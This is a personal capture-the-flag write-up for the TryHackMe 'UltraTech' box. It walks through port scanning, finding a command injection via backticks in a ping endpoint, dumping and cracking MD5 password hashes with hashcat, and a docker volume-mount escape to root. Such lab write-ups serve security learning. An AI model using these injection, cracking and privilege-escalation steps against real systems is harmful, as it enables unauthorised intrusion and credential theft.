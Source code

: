 ### THM UltraTech

So time for a new box.  This is tied to the docker lesson.  So let's have at it.

First, ran through the nmaps.  Not going to paste them as I ran the same commands I always run.  What I found though was some intereting items.

```
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
8081/tcp  open  blackice-icecap
31331/tcp open  unknown
```

And with the -A on the specific ports

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
```

So looks like two ports hosting a web page.  Let's take a look at that.  So I need to get into the habit of opening burpsuite every time I go to a webpage.  We start that up here just kinda roam the page.  Click the links, see where things go, etc.

But, we check that this time and don't really get a whole lot on first check.  Hmm.  What else.  No mention of robots.txt file in the nmap scan but never hurts to check manually.  And wouldn't ya know it.  We do have a robots.txt file.

```
Allow: *
User-Agent: *
Sitemap: /utech_sitemap.txt
```

So, go check out `/utech_sitemap.txt` and we get the following.

```
/index.html
/what.html
/partners.html
```

In combing through and looking we already saw index.html and what.html.  The new one here is the `/partners.html`.

Go check out that page and we've got a log in.  admin/admin doensn't work, the 'fogot your password' link does nothing.  Check the page source and all the way down at the bottom is a javascript.  If we look at the javascript file there's no obfuscation of any sort, its plainly readable.

![js code](/Images/THM5UltraTech/pic1.png)

This is the part we're looking for.  Above that, you can see the function being made to grab the hostname and append port 8081 and that's what gets called into the `const url` command.  Well, we have that, its the IP of the machine itself.  Let's copy that url into the address bar, replace the machine IP and give it a go to see what it does.

`http://10.10.131.192:8081/ping?ip=127.0.0.1`

![code execution](/Images/THM5UltraTech/pic2.png)

Looks like we can execute a ping in here.  Tried adding other commands on to the end, nothing there either.  Turns out you can put backticks (the button right below the esc without shift, "`") and that will cause the command to take precedence in that instance.  It will run the command inside that and then whatever command on top of that.

![code injection](/Images/THM5UltraTech/pic3.png)

So take that utech.db.sqlite and cat that out and we get this.

![passwords](/Images/THM5UltraTech/pic4.png)

Looks like we have `r00t` and `admin` along with a couple of password hashes.  We know what to do with those.  Run them through hashcat.  So get those hashes, put them in my hash.txt file and run it through hashcat.

The first runthrough it kicks back that it needs the mode.  Lot of MD5 variations showed up so just try basic MD5 with this command.

`hashcat.exe -m 0 hash.txt rockyou.txt`

And that gave us the following output.

![hash output](/Images/THM5UltraTech/pic5.png)

Give the both of those a try with ssh and admin didn't work, but the r00t user did.

Now that we've got a foothold, upload linpeas.sh and run that and almost immediately they pinpoint docker.

![linpeas output](/Images/THM5UltraTech/pic6.png)

Go check gtfobins and we see the command here.

`docker run -v /:/mnt --rm -it alpine chroot /mnt sh` 

We change it though cause we're not running alpine, we want to run bash.

```
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# whoami
root
```

![whoami](/Images/THM5UltraTech/pic7.png)


